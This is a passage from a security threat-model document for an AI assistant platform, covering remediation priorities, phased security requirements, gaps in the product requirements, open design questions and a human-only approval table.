| P0-8 | Escape terminal control and OSC sequences from model and tool output. Refresh token in the OS keychain. | F-005 | SR-14, SR-07 | The CLI is the first renderer of untrusted output. |
| P0-9 | CI hardening RF-1 to RF-5: SHA pins, `permissions`, lifecycle-script allow-list, secret scan, SCA, SBOM, and a release environment with human approval. | F-001 | SR-28 | Every later artefact inherits the pipeline. |
| P0-10 | Classify every control in the three briefs as server-enforced or client-assisted, and record the result in the F-003 design. | F-003 | SR-01 | Stops Phase 1 from putting data-protection controls in the host. |

**Architecture response (G3 consistency review, 2026-09-25).** P0-1 → identity-and-policy.md §3.4. P0-2 → identity-and-policy.md §4 (signing-key custody: brief change BC-13). P0-3 → ADR-0010 (IdP-native device flow by default, loopback + PKCE, RTS-hosted only as hardened fallback). P0-4 → observability-audit.md §3.3 (client-attested ingestion path; resolves TM-45(b)) and ADR-0021 (chain from the first event). P0-5 → ADR-0014 (TM-37 constraints), ADR-0005 (regional Vertex; `endpoint_region` and `inference_region` recorded separately). P0-6 → ADR-0005 rule 5. P0-7 → agent-protocol.md §6.2. P0-8, P0-9 → brief changes BC-10, BC-11. P0-10 → open, F-003 design. Full SR traceability: [consistency-review.md](consistency-review.md) §3.

### 8.2 Before the first pilot (end of Phase 1)

SR-02, SR-03, SR-04 (full), SR-05, SR-09, SR-10, SR-11, SR-12, SR-13, SR-14, SR-15, SR-16, SR-17, SR-18, SR-19, SR-20, SR-21, SR-22 (Phase 1 web host part), SR-26 (full), SR-29 (full, including WORM anchoring), SR-30, SR-31 and SR-32, together with the REQ-099 pentest (0 open critical/high findings).

### 8.3 Phase 2 and later

- **Phase 2:** SR-22 (full sandbox baseline), SR-23 (git broker), SR-25 (extraction), SR-27 (marketplace).
- **Phase 3:** indexed-search ACL controls (TM-28), time-boxed grant expiry (REQ-023).
- **Phase 4:** SaaS per-tenant isolation (SR-20 SaaS parts, REQ-105), air-gapped signing chain (TM-44).

### 8.4 Phasing gaps in the PRD (for the product owner at G3)

| # | Gap | Label | Recommendation |
|---|---|---|---|
| PG-1 | REQ-098 (signing, SBOM, dependency scanning) is Phase 2, but customer-operated deployments (REQ-101/102, DV-1) ship in Phase 1. Customers will run unsigned artefacts. | Confirmed | Move the SBOM, image/chart signing and CI SCA parts of REQ-098 to Phase 1. The plugin parts can stay in Phase 2. |
| PG-2 | REQ-097 (Purview/Google DLP labels) is Phase 4, but M365, SharePoint and Google connectors (REQ-040/041) are Phase 2. Labelled content would reach models for two phases without label enforcement. | Confirmed | Pull label *reading* into SR-02 in Phase 2 (labels raise the session tier). Full label-based blocking can stay in Phase 4. |
| PG-3 | REQ-013 needs per-user web isolation in Phase 1, but no Phase 1 mechanism exists before REQ-014 (Phase 2). | Confirmed | Add the SR-22 Phase 1 minimum to F-016's scope. |
| PG-4 | REQ-075 (SIEM export) is Phase 4, but regulated pilot SOC teams usually require SIEM feeds, and an external copy also strengthens tamper-evidence. | Suspected | Offer at least a syslog/HTTP feed at pilot, or confirm with the pilot customer that it isn't required. |
| PG-5 | Nothing in the PRD covers safe rendering (TM-11), traces (TM-24) or client-attested audit (TM-45). | Confirmed | Add acceptance criteria to REQ-007, REQ-072 and REQ-071 in the next PRD revision. |

---

## 9. Open questions

| # | Question | Affects | Recommendation | Owner |
|---|---|---|---|---|
| OQ-S1 | Is the SR-02 session high-water mark the agreed way to decide a request's tier? Who owns the session-classification state: control plane or MCP Gateway? | TM-08, REQ-028 | Control plane owns it; both gateways read and write through an API. Record as an ADR. | Architect |
| OQ-S2 | LiteLLM or a custom Model Gateway, given TM-37? | F-004, F-007 | Decide by ADR before `/design F-004`. If LiteLLM, adopt every TM-37 constraint. | Architect + tech lead |
| OQ-S3 | Can T3 profiles use Desktop/CLI local tools at all? If yes, is a managed-device requirement enforced through IdP Conditional Access? | TM-07, TM-32 | No local tools or stdio MCP for T3. Desktop/CLI are allowed for T3 chat only through the gateways. | Product owner + CISO advisor |
| OQ-S4 | Device-code flow: IdP-native or Ralysa-brokered? Does the pilot telco's Entra Conditional Access block device code (Microsoft's managed policy)? | TM-01, F-002, F-005 | Ask the pilot IT team. Build loopback + PKCE as the fallback. | Architect + pilot IT |
| OQ-S5 | PRD OQ-2 (masked data to a foreign model under QCB Art. 21.4) decides the T2 default routing. | TM-21, §3.2 | Keep T2 in-country or local for bank tenants until counsel answers. | Founder + legal |
| OQ-S6 | NCSA C1–C3 level names and whether C3 may go to cloud. Confirm the §3.2 default mapping with the pilot's data-classification office. | §3.2, REQ-094 | Treat the mapping as a proposal until confirmed. | Product owner |
| OQ-S7 | Prompt retention per tier (PRD OQ-16). This model assumes the same mode applies to traces (SR-21). | TM-24, REQ-071, REQ-072 | Accept the PRD OQ-16 recommendation and extend it to traces. | Product owner + CISO advisor |
| OQ-S8 | Which WORM or object-lock storage exists in every target deployment (Azure immutable blob, GCS bucket lock, S3 Object Lock, MinIO object lock on-prem)? | TM-45, SR-29 | Architect confirms per deployment target. | Architect |
| OQ-S9 | How are plugin UI panels executed and isolated (iframe origin, message API)? | TM-41, SR-27 | Decide at G3, before the marketplace design. | Architect |
| OQ-S10 | How is step-up authentication done for approvals and admin actions (OIDC `max_age`/`prompt=login`, `acr_values`, Entra authentication context)? | TM-12, TM-47, TM-49 | Use Entra authentication context for the pilot; keep it IdP-agnostic in design. | Architect |
| OQ-S11 | Is a web-search tool in scope, and who provides it? A model provider's server-side search tool would send queries outside the region. | TM-10, TM-19 | No provider-side server tools for T2/T3. Search only through the MCP Gateway egress proxy. | Product owner |
| OQ-S12 | What exactly does licence sync send, and is vendor support access needed in customer-operated installs? | TM-51, REQ-081, QCB annex | Metadata only. Support access is just-in-time with customer approval. Document it in the QCB annex. | Founder |
| OQ-S13 | Confirm the NIA v2.1, NCA ECC-2:2024 / CCC-2:2024 and SAMA CSF control IDs in §7. | §7, REQ-099 | CISO advisor, against the primary texts. | CISO advisor |
| OQ-S14 | Do the model providers used for T1/T2 guarantee no training and zero or limited retention under the customer's contract (AS-8)? | TM-19, TM-20 | Record per provider in the model registry, next to processing geography. | Product owner |

---

## Approval (G3)

> Filled by a human only. Agents must leave this blank.

| Approver | Role | Decision (Approved / Changes requested) | Date | Notes |
|---|---|---|---|---|
| | | | | |
